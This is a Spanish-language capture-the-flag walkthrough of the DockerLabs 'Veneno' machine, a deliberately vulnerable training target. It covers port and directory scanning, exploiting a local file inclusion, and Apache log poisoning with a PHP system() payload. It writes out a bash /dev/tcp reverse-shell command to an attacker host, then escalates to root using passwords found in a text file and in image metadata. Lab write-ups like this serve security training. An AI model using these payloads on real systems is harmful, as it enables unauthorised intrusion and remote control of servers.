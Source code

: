 # Máquina Veneno

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/kOFDBYJC#mzBiVsOorShPcTLjPfzmesxAiCHxGkKEDAGxAIJ0r0g)

![imagen](https://github.com/user-attachments/assets/7dfeacdc-45b1-4877-9e70-262b06cdbe3b)

- **Nombre de la Máquina:** Veneno
- **Sistema Operativo:** Linux
- **Dificultad:** Medio
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - LFI (Local File Inclusion)
  - Log Poisoning
- **Escalada de Privilegios:**
  - Encontrar la contraseña del usuario 'carlos'
  - Buscar en archivos para descubrir la contraseña root

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/bc125347-c516-40e1-a27f-2fd3bc077543)

El escaneo muestra que los puertos 22 y 80 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutándose en estos puertos.

```bash
sudo nmap -p 22,80 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/6f4a971e-92d6-4890-9ce6-11b0442f2235)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver qué servicios corren en el puerto HTTP.

![imagen](https://github.com/user-attachments/assets/bb1931c7-d6f7-4d0e-88fa-4af225e1faf4)

Nos encontramos la página por defecto de ubuntu apache2.

![imagen](https://github.com/user-attachments/assets/52aae76f-178b-492d-bb92-4c736a21c7fe)

Haremos una búsqueda de directorios utilizando `gobuster`.

```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 150
```

![imagen](https://github.com/user-attachments/assets/b5d71b73-0f9e-4154-9616-386532a22215)

Encontramos dos directorios: `/problems.php` y `/uploads/`. Dentro de `uploads` no encontramos nada, está vacío y en `problems.php` parece ser que está cargando el mismo index que la página principal de apache2.

![imagen](https://github.com/user-attachments/assets/95c5e712-7f63-419b-a715-04d9d215cb6d)

![imagen](https://github.com/user-attachments/assets/6a563e1b-fdb7-49d7-abbd-fe826c342b5b)

Haremos fuerza bruta usando wfuzz para buscar algún parámetro específico que esté contemplado en `/problems.php`.

```bash
wfuzz -c -u "http://172.17.0.2/problems.php?FUZZ=../../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --hl 363
```

![imagen](https://github.com/user-attachments/assets/62c0b64b-7bdc-47f6-b335-8d9b23f1497a)

Encontró el parámetro `backdoor`, y si miramos en la web, estamos aconteciendo un LFI (Local File Inclusion).

```url
http://172.17.0.2/problems.php?backdoor=../../../../etc/passwd
```

![imagen](https://github.com/user-attachments/assets/f40f6145-6c7f-4183-92d9-03230520f4a4)

Actualmente podremos leer los archivos de la máquina víctima, y también vemos que por ahora solo existe el usuario `carlos`.
Me envio la petición a burpsuite para verlo mejor y probar a ver si se puede acontecer un `Log Poisoning`.

![imagen](https://github.com/user-attachments/assets/6d7b26c7-f23a-4be8-ab65-232b2606f605)

Para el log poisoning hay que apuntar al archivo `/var/log/apache2/error.log`.

![imagen](https://github.com/user-attachments/assets/32ce787e-e96b-4ed8-b793-80a49e54aef0)

Vemos que apunta al archivo indicado, vamos a probar el `Log Poisoning`. Para ello debemos de causar un error apuntando hacia el comando que queramos, por ejemplo lo siguiente:

```url
http://172.17.0.2/%3C%3fphp%20system('whoami');%20%3f%3E.php
```

Y al cargar otra vez el archivo `error.log` veremos que se ha ejecutado el comando:

![imagen](https://github.com/user-attachments/assets/fa75a6d7-aa9e-4d75-a9b5-5d0b730185f6)

Una vez en este punto lo que se me ocurre es agregar un parámetro llamado `cmd` en el cuál podamos ejecutar comandos y de ahí mandarnos una reverse shell.

```url
http://172.17.0.2/%3C%3fphp%20system('$_GET[%22cmd%22]');%20%3f%3E.php
```

Ejecutamos el comando `id` para comprobar si funciona el parámetro, y funciona correctamente.
```url
http://172.17.0.2/problems.php?backdoor=../../../../var/log/apache2/error.log&cmd=id
```

![imagen](https://github.com/user-attachments/assets/a89370a1-167b-45f0-b198-8fb09fcec4f5)

Ahora cambiamos el comando `id` por el siguiente para mandarnos la reverse shell:

```bash
172.17.0.2/problems.php?backdoor=../../../../var/log/apache2/error.log&cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

Nos ponemos en escucha por el puerto 443 y nos mandamos la reverse shell.

![imagen](https://github.com/user-attachments/assets/d0892142-372a-4591-b974-3a9a0fedd481)

## Escalada de privilegios a Carlos
Una vez dentro miro si tengo privilegios con sudo pero no tengo, también miro si tengo privilegios SUID en algún binario y tampoco.

![imagen](https://github.com/user-attachments/assets/a0053bab-1554-47ad-9bff-944a111eb309)

Haciendo un `ls` encuentro un txt que dice lo siguiente:

```txt
Es imposible que me acuerde de la pass es inhackeable pero se que la tenpo en el mismo fichero desde fa 24 anys. trobala buscala
soy el unico user del sistema.
```

![imagen](https://github.com/user-attachments/assets/5a3b46ea-d626-4686-8608-90b4b3866269)

El texto está mal escrito pero algo se entiende... Pruebo a buscar por todos los archivos que acaben en .txt y encuentro uno interesante.

```bash
find / -name "*.txt" 2>/dev/null
```

![imagen](https://github.com/user-attachments/assets/d3e30ee9-f358-4e95-b9c3-6892d867b491)

```bash
cat /usr/share/viejuno/inhackeable_pass.txt
```

![imagen](https://github.com/user-attachments/assets/002ceae2-e45d-4991-96d4-ad946d562172)

Pues la password de `carlos` es **pinguinochocolatero**.

![imagen](https://github.com/user-attachments/assets/c0040a80-4786-4c92-ba89-8fc32b5d22b0)

## Escalada de privilegios a root
En el directorio de carlos encuentro 100 carpetas y supongo que tendré que encontrar algo en alguna de ellas. Tampoco tengo privilegios de sudo ni binarios SUID.

![imagen](https://github.com/user-attachments/assets/bd4e56b6-bcb4-48e2-90db-73fb9a054de1)

```bash
ls -la carpeta*
```

Con ese comando hago un `ls` a todas las carpetas y mirando desde la terminal veo que la carpeta55 tiene un archivo .jpg

![imagen](https://github.com/user-attachments/assets/b64bf982-5ec4-40c6-92d6-2e6d7ccb43eb)

Nos lo mandamos a nuestra máquina atacante mediante el uso de python y la analizamos con `exiftool`.

```bash
python3 -m http.server 80
```

```bash
exiftool .toor.jpg
```

![imagen](https://github.com/user-attachments/assets/441d2c74-c1ce-430a-af0f-65511c000141)

Encuentro en una de las informaciones lo siguiente:
```
Image Quality                   : pingui1730
```

Pruebo esa posible contraseña para identificarme como root y resulta que esa es la password, y ya habríamos escalado los privilegios a root.

```bash
su root
pingui1730
```

![imagen](https://github.com/user-attachments/assets/33623ee5-e35b-4db0-8d42-0c4af01998d2)
